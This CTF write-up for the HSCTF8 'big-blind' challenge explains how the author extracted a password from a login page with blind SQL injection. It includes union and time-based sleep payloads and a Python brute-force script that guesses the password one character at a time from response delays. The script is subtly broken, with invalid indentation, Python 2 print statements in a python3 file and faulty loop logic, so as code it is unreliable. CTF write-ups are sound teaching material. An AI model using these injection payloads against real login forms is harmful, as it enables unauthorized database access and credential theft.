



# HSCTF8 - big-blind

- Write-Up Author: Wendy \[[MOCTF](https://www.facebook.com/MOCSCTF)\]

- Flag:**flag{any_info_is_good_info}**
## **Question:**
>big-blind



## Write up:

The website is simple and just a login page. When you input some characters like ', it return 500 Internal Server Error. It's SQL injection challenge. 



First, I use the comment symbol and time-based SQL injection payload to discover the DB table and password length.
```
admin' union select 1,2 from users #

admin' union select 1,2 from users where user='' #

admin' union select 1,2 from users where pass='' #

admin' and IF(1=(SELECT 1 FROM users WHERE Length(pass) = 27),sleep(10),0) #

```

Since the password is long and hard to guess manually. I wrote a script to guess the whole password. Finally, we see the flag is the password.

```
#!/usr/bin/env python3
import requests
import sys

def blind(query):
    url = "https://big-blind.hsc.tf/"
    response = requests.post(url, data={"user":"" +query+ ",sleep(5),0) #","pass":""})
    
    if(response.elapsed.total_seconds()>3):
    print query
    return 'Found'

    return response

keyspace = 'abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789!@#$^&*()-=+'

query_left_side = "admin' and IF(1=(SELECT 1 FROM users WHERE pass LIKE '"
flag = ""
while True:
    for x in range(1,28):
        print x
        for k in keyspace:
        # query = admin' and IF(1=(SELECT 1 FROM users WHERE pass LIKE 'flag%'),sleep(10),0) #
        query = query_left_side + flag + k + "%')"
        response = blind(query)

        if response == 'Found':
            flag += k
            break

        if k == '+':
            flag += '_'

```



>flag{any_info_is_good_info}
